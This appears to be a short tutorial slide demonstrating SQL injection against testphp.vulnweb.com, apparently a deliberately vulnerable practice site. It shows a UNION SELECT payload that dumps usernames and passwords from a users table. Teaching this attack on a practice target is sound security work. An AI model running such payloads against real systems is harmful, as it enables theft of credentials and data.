

# INPUT AND RESULT
Use this query:

http://testphp.vulnweb.com/product.php?pic=-1 union select all 1,2,3,4,5,6,group_concat(uname,0x3a,pass),8,9,10,11 from users
Result: We get the username and password of the website.